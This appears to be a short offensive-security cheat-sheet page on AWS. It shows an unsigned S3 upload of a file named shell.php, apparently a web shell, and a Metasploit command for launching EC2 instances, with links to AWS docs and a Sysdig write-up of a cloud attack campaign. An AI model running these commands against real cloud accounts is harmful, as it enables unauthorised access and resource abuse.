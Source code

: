 # AWS

```
$ aws s3 --no-sign-request cp shell.php s3://<s3_bucket_IP>
```

```
msf > use auxiliary/admin/aws/aws_launch_instances
```

---
## References

### Amazon

https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html

### Sys Dig

https://sysdig.com/blog/scarleteel-2-0/